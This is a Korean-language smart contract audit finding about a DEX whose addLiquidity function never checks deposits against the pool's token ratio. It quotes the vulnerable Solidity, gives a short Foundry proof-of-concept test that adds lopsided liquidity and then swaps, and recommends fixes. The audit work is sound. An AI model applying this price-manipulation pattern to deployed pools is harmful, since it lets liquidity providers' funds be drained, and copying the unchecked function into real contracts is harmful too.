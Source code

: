 ## medium - 토큰 유동성 풀의 AMM이 손상되어 비정상적인 가격 변동이 발생할 수 있습니다.

### 설명

./src/Dex.sol: 18-49

function addLiquidity(uint256 amountX, uint256 amountY, uint256 minLiquidity) external returns (uint256)

```solidity
function addLiquidity(uint256 amountX, uint256 amountY, uint256 minLiquidity) external returns (uint256) {
    require(amountX > 0 && amountY > 0, "Invalid token amounts");

    uint256 liquidityMinted;
    if (totalLiquidity == 0) {
        // 초기 유동성 공급
        liquidityMinted = amountX * amountY;
    } else {
        // 기존 유동성 공급 시, 현재 비율에 맞춰 유동성 토큰 계산
        uint256 liquidityX = (amountX * totalLiquidity) / tokenX.balanceOf(address(this));
        uint256 liquidityY = (amountY * totalLiquidity) / tokenY.balanceOf(address(this));
        liquidityMinted = liquidityX < liquidityY ? liquidityX : liquidityY;
    }

    require(liquidityMinted >= minLiquidity, "Insufficient liquidity minted");

    // 유동성 토큰 발행
    liquidity[msg.sender] += liquidityMinted;
    totalLiquidity += liquidityMinted;

    require(tokenX.allowance(msg.sender, address(this)) >= amountX, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= amountY, "ERC20: insufficient allowance");

    require(tokenX.balanceOf(msg.sender) >= amountX, "ERC20: transfer amount exceeds balance");
    require(tokenY.balanceOf(msg.sender) >= amountY, "ERC20: transfer amount exceeds balance");

    // 토큰 전송 (사용자로부터 DEX 계약으로)
    require(tokenX.transferFrom(msg.sender, address(this), amountX), "Token X transfer failed");
    require(tokenY.transferFrom(msg.sender, address(this), amountY), "Token Y transfer failed");

    return liquidityMinted;
}
```

`addLiquidity` 함수에서 인자로 들어온 amountX, amountY의 값이 실제 유동성 풀의 토큰 비율과 일치하는지에 대한 검사가 존재하지 않습니다.

이에 따라 amountX, amountY만큼의 토큰이 모두 유동성 풀에 추가되어 유동성 풀 내의 토큰 공급량이 손상될 수 있습니다.

### 파급력

Medium - 유동성 공급 비율에 대한 검사가 이루어지지 않아, 공격자가 임의로 토큰 비율을 조정할 수 있습니다.

```solidity
contract DexScript is Test {
    Dex public dex;
    IERC20 tokenX;
    IERC20 tokenY;

    function setUp() public {
        tokenX = new CustomERC20("X");
        tokenY = new CustomERC20("Y");
        dex = new Dex(address(tokenX), address(tokenY));
        tokenX.approve(address(dex), type(uint256).max);
        tokenY.approve(address(dex), type(uint256).max);

        dex.addLiquidity(800 ether, 700 ether, 0);
    }

    function test_exploit() public {
        
        uint LPReturn1 = dex.addLiquidity(8 ether, 7 ether, 0);
        console.log("LPReturn1: ", LPReturn1);

        uint swap1 = dex.swap(0, 100 ether, 0);
        console.log("swap1: ", swap1);

        
    }

    function test_exploit2() public {
        uint LPReturn2 = dex.addLiquidity(10000 ether, 1, 0);
        console.log("LPReturn2: ", LPReturn2);

        uint swap2 = dex.swap(0, 100 ether, 0);
        console.log("swap2: ", swap2);
    }
}
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/dcc66554-0f51-432b-b52f-51edb25200cb/ec12c0d9-35dc-4683-80e5-30f0cdb65145/image.png)

1. 특정 토큰의 유동성 비율을 매우 높거나 낮게 공급하여 토큰의 가격을 조정할 수 있습니다.

### 해결 방안

1. addLiquidity 함수의 인자가 아닌 실제로 추가되어야할 토큰의 양을 현재 유동성 풀의 비율에 대해 계산하여 transfer하는 방법을 사용할 수 있습니다.
    1. amountX, amountY 중 실제로 유동성 풀에 추가될 수 있는 양(`aX`, `bX`을 계산)
    2. 아래와 같이, 계산된 토큰의 양을 transferFrom 합니다.
    `tokenX.transferFrom(msg.sender, address(this), aX);`
    `tokenY.transferFrom(msg.sender, address(this), aY);`
2. 유동성 풀의 토큰 양을 reserve 변수로 사용하고, skim 함수를 implement하여 필요한 경우 유동성 풀의 비율을 맞춰줄 수 있습니다.
    
    ```solidity
    function skim(address to) external lock {
            address _token0 = token0; // gas savings
            address _token1 = token1; // gas savings
            _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
            _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
        }
    ```

